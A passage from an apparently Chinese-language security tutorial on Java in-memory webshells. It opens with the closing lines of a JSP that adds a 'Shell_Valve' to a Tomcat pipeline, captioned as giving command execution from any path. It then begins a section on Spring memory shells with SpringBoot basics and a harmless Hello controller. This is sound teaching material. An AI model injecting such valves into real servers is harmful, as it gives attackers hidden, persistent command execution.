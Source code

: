 ```java
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
    }
%>
 
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712805732820-f5ce1829-ace9-4114-8dfc-777a2e50bfd3.png#averageHue=%23bbd2b9&clientId=ud7b9145e-b480-4&from=paste&height=445&id=u136d6210&originHeight=890&originWidth=1308&originalType=binary&ratio=2&rotation=0&showTitle=false&size=282416&status=done&style=none&taskId=u7497b604-585a-40c9-841b-de3c0c1050c&title=&width=654)
任意路径即可命令执行
# 5、Spring内存马
## 5.1、什么是Spring
`Spring`是一个轻量级的`Java`开源框架，用于配置、管理和维护`Bean`（组件）的一种框架，其核心理念就是`IoC`(`Inversion of Control,控制反转`) 和 `AOP`(`AspectOrientedProgramming`， 面向切面编程)。现如今`Spring`全家桶已是一个庞大的家族
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712805847378-c73593ae-18c0-4a66-8bb6-558b1e38c30f.png#averageHue=%23eeb79b&clientId=ud7b9145e-b480-4&from=paste&height=632&id=u0e1855c2&originHeight=1264&originWidth=1846&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1111217&status=done&style=none&taskId=ud3bec992-efd2-4d12-b0e6-877798093c5&title=&width=923)
`Spring`的出现大大简化了`JavaEE`的开发流程，减少了`Java`开发时各种繁琐的配置。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712805863120-14a7c006-b9a4-4a05-9af7-c8512ca316e0.png#averageHue=%23fbfefa&clientId=ud7b9145e-b480-4&from=paste&height=291&id=ub4e42d25&originHeight=582&originWidth=1850&originalType=binary&ratio=2&rotation=0&showTitle=false&size=499977&status=done&style=none&taskId=u15ca0cc5-b188-45ef-9b74-61892d5c27b&title=&width=925)
`Spring`框架的核心之一就是分层，其由许多大大小小的组件构成，每种组件都实现不同功能。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712805911819-04119dc5-16bf-45d8-adf5-bb02eb47da3e.png#averageHue=%236f8f50&clientId=ud7b9145e-b480-4&from=paste&height=547&id=u75fafc9c&originHeight=1094&originWidth=1476&originalType=binary&ratio=2&rotation=0&showTitle=false&size=593939&status=done&style=none&taskId=u6c3126f6-8d2e-4aa6-960f-5efa1343a23&title=&width=738)
### 5.1.1、SpringBoot
`SpringBoot` 基于 `Spring` 开发。不仅继承了`Spring`框架原有的优秀特性，它并不是用来替代 `Spring` 的解决方案，而和 `Spring` 框架紧密 结合进一步简化了`Spring`应用的整个搭建和开发过程。其设计目的是用来简化 `Spring` 应用的初始搭建以及开发过程。
采用 `Spring Boot `可以大大的简化开发模式，它集成了大量常用的第三方库配置，所有你想集成的常用框架，它都有对应的组件支持，例如 `Redis`、`MongoDB`、`Dubbo`、`kafka`，`ES`等等。`SpringBoot` 应用中这些第三方库几乎可以零配置地开箱即用，大部分的 `SpringBoot` 应用都只需要非常少量的配置代码，开发者能够更加专注于业务逻辑。 另外`SpringBoot`通过集成大量的框架使得依赖包的版本冲突，以及引用的不稳定性等问题得到了很好的解决。
下面我们就通过`IDEA`中的`Spring Initializr`来快速构建一个基于`SpringBoot`的`Web`项目
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712882842976-da92f954-3326-4cb6-828f-f87cfabac752.png#averageHue=%23f4f5f8&clientId=ufcdaa678-2043-4&from=paste&height=741&id=uf112c445&originHeight=1482&originWidth=1660&originalType=binary&ratio=2&rotation=0&showTitle=false&size=262098&status=done&style=none&taskId=uc7e86df4-95c4-4b21-8ca2-76779f8a067&title=&width=830)
选择`Spring Web`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712882887674-271a2bd6-f265-4f02-bbab-e4974631f71e.png#averageHue=%23f4f5f8&clientId=ufcdaa678-2043-4&from=paste&height=741&id=ub620db69&originHeight=1482&originWidth=1660&originalType=binary&ratio=2&rotation=0&showTitle=false&size=281395&status=done&style=none&taskId=ud88216cc-d3c2-4383-a873-a79bd921b26&title=&width=830)
创建好之后，IDEA会自动创建一个启动类
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712882958204-f6b606ee-0e3d-4f44-9f18-c2f6b309cd11.png#averageHue=%23bbaa53&clientId=ufcdaa678-2043-4&from=paste&height=459&id=u569bc29b&originHeight=918&originWidth=1934&originalType=binary&ratio=2&rotation=0&showTitle=false&size=227069&status=done&style=none&taskId=ufe22ab8f-d4c7-4c73-af51-181b1073698&title=&width=967)
下面我们就可以编写相应的`Controller`（控制器）及各种业务逻辑了
```java
package com.example.spring.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class HelloWouldController {
    @ResponseBody
    @RequestMapping(value = "hello2", method = RequestMethod.GET)
    public String Hello() {
        return "Hello Would";
    }
}
```